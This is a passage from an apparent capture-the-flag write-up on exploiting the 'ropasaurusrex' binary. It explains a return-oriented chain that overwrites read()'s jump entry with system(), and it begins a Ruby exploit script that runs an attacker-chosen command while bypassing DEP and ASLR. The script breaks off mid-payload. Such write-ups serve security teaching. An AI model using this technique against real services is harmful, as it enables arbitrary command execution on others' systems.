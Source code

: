 <tt>read()</tt> is actually implemented as an indirect jump! So if we can change what <tt>ds:0x804961c</tt>'s value is, and still jump to it, then we can jump anywhere we want! So in frame [3] we read the address from memory (to get the actual address of <tt>read()</tt>) and in frame [5] we write a new address there.

Frame [6] is a standard <tt>pop/pop/pop/ret</tt> construct, with a small difference: the return address of the <tt>pop/pop/pop/ret</tt> is <tt>0x804832c</tt>, which is actually <tt>read()</tt>'s <tt>.plt</tt> entry. Since we overwrote <tt>read()</tt>'s <tt>.plt</tt> entry with <tt>system()</tt>, this call actually goes to <tt>system()</tt>!

<h2>Final code</h2>
Whew! That's quite complicated. Here's code that implements the full exploit for ropasaurusrex, bypassing both DEP and ASLR:

<pre>
<span class="lnr"> 1 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">&quot;</span><span class="Constant">localhost</span><span class="Special">&quot;</span>, <span class="Constant">4444</span>)
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span><span class="Comment"># The command we'll run</span>
<span class="lnr"> 6 </span>cmd = <span class="Identifier">ARGV</span>[<span class="Constant">0</span>] + <span class="Special">&quot;</span><span class="Special">\0</span><span class="Special">&quot;</span>
<span class="lnr"> 7 </span>
<span class="lnr"> 8 </span><span class="Comment"># From objdump -x</span>
<span class="lnr"> 9 </span>buf = <span class="Constant">0x08049530</span>
<span class="lnr">10 </span>
<span class="lnr">11 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep read</span>
<span class="lnr">12 </span>read_addr = <span class="Constant">0x0804832C</span>
<span class="lnr">13 </span><span class="Comment"># From objdump -D ./ropasaurusrex | grep write</span>
<span class="lnr">14 </span>write_addr = <span class="Constant">0x0804830C</span>
<span class="lnr">15 </span><span class="Comment"># From gdb, &quot;x/x system&quot;</span>
<span class="lnr">16 </span>system_addr = <span class="Constant">0xb7ec2450</span>
<span class="lnr">17 </span><span class="Comment"># Fram objdump, &quot;pop/pop/pop/ret&quot;</span>
<span class="lnr">18 </span>pppr_addr = <span class="Constant">0x080484b6</span>
<span class="lnr">19 </span>
<span class="lnr">20 </span><span class="Comment"># The location where read()'s .plt entry is</span>
<span class="lnr">21 </span>read_addr_ptr = <span class="Constant">0x0804961c</span>
<span class="lnr">22 </span>
<span class="lnr">23 </span><span class="Comment"># The difference between read() and system()</span>
<span class="lnr">24 </span><span class="Comment"># Calculated as  read (0xb7f48110) - system (0xb7ec2450)</span>
<span class="lnr">25 </span><span class="Comment"># Note: This is the one number that needs to be calculated using the</span>
<span class="lnr">26 </span><span class="Comment"># target version of libc rather than my own!</span>
<span class="lnr">27 </span>read_system_diff = <span class="Constant">0x85cc0</span>
<span class="lnr">28 </span>
<span class="lnr">29 </span><span class="Comment"># Generate the payload</span>
<span class="lnr">30 </span>payload = <span class="Special">&quot;</span><span class="Constant">A</span><span class="Special">&quot;</span>*<span class="Constant">140</span> +
<span class="lnr">31 </span>  [
<span class="lnr">32 </span>    <span class="Comment"># system()'s stack frame</span>
<span class="lnr">33 </span>    buf,         <span class="Comment"># writable memory (cmd buf)</span>
<span class="lnr">34 </span>    <span class="Constant">0x44444444</span>,  <span class="Comment"># system()'s return address</span>